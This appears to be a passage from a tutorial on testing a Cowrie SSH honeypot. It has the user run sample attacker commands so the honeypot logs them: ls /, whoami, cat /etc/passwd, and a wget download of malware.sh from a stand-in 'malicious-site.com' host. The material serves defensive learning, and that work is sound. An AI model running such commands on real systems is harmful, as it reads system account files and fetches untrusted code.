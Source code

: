 ![requied Dependencies](./images/shh_login3.png)

### 4.3 Execute Fake Malicious Commands
Inside the Cowrie session, try:
```bash
ls /
```
```bash
whoami
```
```bash
cat /etc/passwd
```
```bash
wget http://malicious-site.com/malware.sh
```
![requied Dependencies](./images/command_att_honypt.png)
The honeypot will log all commands.
